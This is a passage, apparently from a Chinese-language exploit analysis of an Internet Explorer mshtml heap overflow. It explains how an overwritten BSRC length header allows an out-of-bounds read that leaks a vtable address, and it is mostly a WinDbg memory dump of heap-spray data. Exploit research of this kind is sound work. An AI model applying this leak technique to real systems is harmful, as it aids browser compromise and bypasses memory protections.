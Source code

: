 我们可以看到在04842c58的位置里BSRC的头部已经从fa被覆盖为了010048（这个值是由前面的mshtml!CWidthUnitValue::GetPixelWidth获得）。这样我们就可以溢出读取到后面虚表mshtml!CButtonLayout:: vftable的地址。也就是04f4bc30的值3dc87f78。

	0:012> db 04f4b918 l1000
	04f4b918  04 10 00 00 04 10 00 00-04 10 00 00 00 00 00 00  ................
	04f4b928  45 00 45 00 41 00 45 00-48 00 01 00 04 10 00 00  E.E.A.E.H.......
	04f4b938  04 10 00 00 04 10 00 00-00 00 00 00 45 00 45 00  ............E.E.
	04f4b948  41 00 45 00 48 00 01 00-04 10 00 00 04 10 00 00  A.E.H...........
	04f4b958  04 10 00 00 00 00 00 00-45 00 45 00 41 00 45 00  ........E.E.A.E.
	04f4b968  48 00 01 00 04 10 00 00-04 10 00 00 04 10 00 00  H...............
	04f4b978  00 00 00 00 45 00 45 00-41 00 45 00 48 00 01 00  ....E.E.A.E.H...
	04f4b988  04 10 00 00 04 10 00 00-04 10 00 00 00 00 00 00  ................
	04f4b998  45 00 45 00 41 00 45 00-48 00 01 00 04 10 00 00  E.E.A.E.H.......
	04f4b9a8  04 10 00 00 04 10 00 00-00 00 00 00 45 00 45 00  ............E.E.
	04f4b9b8  41 00 45 00 48 00 01 00-04 10 00 00 04 10 00 00  A.E.H...........
	04f4b9c8  04 10 00 00 00 00 00 00-45 00 45 00 41 00 45 00  ........E.E.A.E.
	04f4b9d8  48 00 01 00 04 10 00 00-04 10 00 00 04 10 00 00  H...............
	04f4b9e8  00 00 00 00 45 00 45 00-41 00 45 00 48 00 01 00  ....E.E.A.E.H...
	04f4b9f8  04 10 00 00 04 10 00 00-04 10 00 00 00 00 00 00  ................
	04f4ba08  45 00 45 00 41 00 45 00-48 00 01 00 04 10 00 00  E.E.A.E.H.......
	04f4ba18  04 10 00 00 04 10 00 00-fa 00 00 00 41 00 41 00  ............A.A.
	04f4ba28  41 00 41 00 48 00 01 00-04 10 00 00 04 10 00 00  A.A.H...........
	04f4ba38  04 10 00 00 41 00 41 00-41 00 41 00 41 00 41 00  ....A.A.A.A.A.A.
	04f4ba48  48 00 01 00 04 10 00 00-04 10 00 00 04 10 00 00  H...............
	04f4ba58  41 00 41 00 41 00 41 00-41 00 41 00 48 00 01 00  A.A.A.A.A.A.H...
	04f4ba68  04 10 00 00 04 10 00 00-04 10 00 00 41 00 41 00  ............A.A.
	04f4ba78  41 00 41 00 41 00 41 00-48 00 01 00 04 10 00 00  A.A.A.A.H.......
	04f4ba88  04 10 00 00 04 10 00 00-41 00 41 00 41 00 41 00  ........A.A.A.A.
	04f4ba98  41 00 41 00 48 00 01 00-04 10 00 00 04 10 00 00  A.A.H...........
	04f4baa8  04 10 00 00 41 00 41 00-41 00 41 00 41 00 41 00  ....A.A.A.A.A.A.
	04f4bab8  48 00 01 00 04 10 00 00-04 10 00 00 04 10 00 00  H...............
	04f4bac8  41 00 41 00 41 00 41 00-41 00 41 00 48 00 01 00  A.A.A.A.A.A.H...
	04f4bad8  04 10 00 00 04 10 00 00-04 10 00 00 41 00 41 00  ............A.A.
	04f4bae8  41 00 41 00 41 00 41 00-48 00 01 00 04 10 00 00  A.A.A.A.H.......
	04f4baf8  04 10 00 00 04 10 00 00-41 00 41 00 41 00 41 00  ........A.A.A.A.
	04f4bb08  41 00 41 00 48 00 01 00-04 10 00 00 04 10 00 00  A.A.H...........
	04f4bb18  04 10 00 00 41 00 00 00-fc dc 5c ee 00 01 08 ff  ....A.....\.....
	04f4bb28  48 00 01 00 42 00 42 00-42 00 42 00 42 00 42 00  H...B.B.B.B.B.B.
	04f4bb38  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bb48  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bb58  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bb68  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bb78  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bb88  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bb98  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bba8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bbb8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bbc8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bbd8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bbe8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bbf8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bc08  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
	04f4bc18  42 00 42 00 42 00 42 00-42 00 42 00 42 00 00 00  B.B.B.B.B.B.B...
	04f4bc28  1d dc 5c ee 00 01 0c ff-78 7f c8 3d 20 3a 56 04  ..\.....x..= :V.
	04f4bc38  c0 7a 71 04 18 81 c8 3d-01 00 00 00 00 00 00 00  .zq....=........
	04f4bc48  09 08 08 01 ff ff ff ff-00 00 00 00 00 00 00 00  ................
	04f4bc58  00 00 00 00 ff ff ff ff-80 00 00 00 ff ff ff ff  ................
	04f4bc68  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
	04f4bc78  00 00 00 00 24 00 00 00-20 00 00 00 00 00 00 00  ....$... .......
	04f4bc88  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
	04f4bc98  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
	04f4bca8  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
	04f4bcb8  00 00 00 00 00 00 00 00-00 00 00 00 e0 bc f4 04  ................
	04f4bcc8  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................